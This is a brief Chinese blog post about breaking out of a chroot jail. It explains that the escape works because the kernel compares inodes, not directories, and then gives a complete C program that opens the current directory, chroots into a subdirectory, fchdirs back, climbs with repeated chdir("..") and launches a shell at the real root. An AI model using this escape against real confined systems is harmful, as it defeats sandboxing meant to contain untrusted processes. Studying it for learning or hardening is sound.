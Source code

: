 ```yaml
---
title: 脱离chroot的枷锁
author: MaskRay
tags: unix-like
---
```



今天 `#ubuntu-cn@freenode` 中 `Kandu` 提到 `chroot` 限定的根是可以脱离的：`http://www.bpfh.net/simes/computing/chroot-break.html`。

`Kandu` 说，造成这种现象可能的原因是由于使用了 `fchdir`，不能比较目录，只能比较 `inode`。本来改变当前目录时，如果碰到 `cwd` 和 `root` 目录相同则不做变动，但 `cwd` 在 `root` 目录（即 `tempdir`）之上，所以不会碰到相等的情况，于是 `cwd` 能一直往上回溯，直到内核加载时 `root` 的 `/`。

我也尝试写一份：

    #include <fcntl.h>
    #include <stdlib.h>
    #include <sys/stat.h>
    #include <sys/types.h>
    #include <unistd.h>
    
    int main(void)
    {
        int fd = open(".", O_RDONLY), i;
        mkdir("tempdir", 0755);
        if (fd == -1) return 1;
        if (chroot("tempdir") == -1) return 1;
        if (fchdir(fd) == -1) return 1;
        for (i = 0; i < 1024; i++)
            chdir("..");
        if (chroot(".") == -1) return 1;
        system("sh");
    }

明当远离，不知所言。
